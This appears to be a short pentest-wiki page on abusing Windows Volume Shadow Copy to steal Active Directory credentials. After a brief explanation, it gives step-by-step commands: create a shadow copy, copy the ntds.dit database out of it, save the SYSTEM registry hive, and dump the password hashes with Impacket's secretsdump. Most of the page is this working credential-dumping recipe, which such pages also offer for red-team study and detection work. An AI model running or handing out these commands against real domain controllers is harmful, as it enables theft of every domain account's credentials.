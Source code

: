 # Shadow Copy

**Shadow Copy** **A.K.A Volume Shadow Copy Service (VSS)** in Windows is a feature that creates backup snapshots of files or entire volumes while they are in use. \
Originally designed for quick backups and to enable file versioning in case of accidental deletion or data corruption.

Attackers often leverage this feature to access sensitive files, like the NTDS database, which contains user credentials, without alerting security systems.

{% hint style="warning" %}
**Note:** shadow copy requires Administrative or SYSTEM Privileges
{% endhint %}

#### **Steps for shadow copy:**

1. Create a Shadow Copy.

```batch
vshadow.exe -nw -p  C:
```

2. Copy **ntds.dit** file.

```batch
copy <shadow_path>\windows\ntds\ntds.dit c:\ntds.dit.bak
```

3. Export the SYSTEM Hive - necessary for decrypting NTDS hashes.

```batch
reg save hklm\system c:\system.bak
```

3. Extract hashes Finally using Impacket’s secretsdump.

```bash
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```




